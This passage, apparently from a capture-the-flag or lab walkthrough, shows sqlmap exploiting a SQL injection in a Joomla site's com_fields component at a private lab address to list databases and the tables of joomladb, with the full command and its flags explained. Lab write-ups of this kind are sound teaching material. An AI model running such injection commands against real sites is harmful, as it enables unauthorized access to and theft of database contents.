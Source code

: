 ![Screen Shot 2019-06-03 at 2.25.20 PM.png](/assets/images/screen-shot-2019-06-03-at-2.25.20-pm.png)

Super! `sqlmap` got us the database names. The most interesting one is `joomladb`. I decided to get table names as follows: `sqlmap -u "http://192.168.56.101/index.php option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --tables -D joomladb`

The only change from the previous command to this is that we mention: `--tables -D joomladb` which is a way of saying that we want a list of _tables_ from the database `joomladb`

![Screen Shot 2019-06-03 at 2.31.04 PM.png](/assets/images/screen-shot-2019-06-03-at-2.31.04-pm.png)
